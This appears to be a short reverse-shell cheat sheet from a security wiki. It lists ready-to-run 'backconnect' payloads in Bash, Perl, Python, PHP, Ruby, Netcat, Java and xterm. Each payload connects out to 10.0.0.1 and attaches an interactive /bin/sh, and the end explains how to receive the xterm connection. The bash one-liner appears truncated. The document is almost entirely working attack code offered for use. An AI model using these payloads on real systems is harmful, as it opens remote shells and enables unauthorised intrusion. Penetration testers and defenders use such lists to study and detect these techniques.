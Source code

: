# Remote Code Execution
__Backconnect__

Bash
```bash
    & /dev/tcp/10.0.0.1/8080 0>&1
```
PERL
```perl
    use Socket;
    $i="10.0.0.1";
    $p=1234;
    socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));
    if(connect(S,sockaddr_in($p,inet_aton($i)))){
      open(STDIN,">&S");
      open(STDOUT,">&S");
      open(STDERR,">&S");
      exec("/bin/sh -i");
    };
```
Python
```python
import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("10.0.0.1",1234));
os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);
```
PHP
```
    $sock=fsockopen("10.0.0.1",1234);
    exec("/bin/sh -i <&3 >&3 2>&3");
```
Ruby
```ruby
f=TCPSocket.open("10.0.0.1",1234).to_i;
exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)
```
Netcat
```bash
nc -e /bin/sh 10.0.0.1 1234
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```
Java
```java
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```
xterm
```
    xterm -display 10.0.0.1:1
```
To catch the incoming xterm, start an X-Server (:1 – which listens on TCP port 6001). One way to do this is with Xnest (to be run on your system):
```
    Xnest :1
```    
You’ll need to authorise the target to connect to you (command also run on your host):
```
    xhost +targetip
```


----
взято с сайта http://itsecwiki.org/
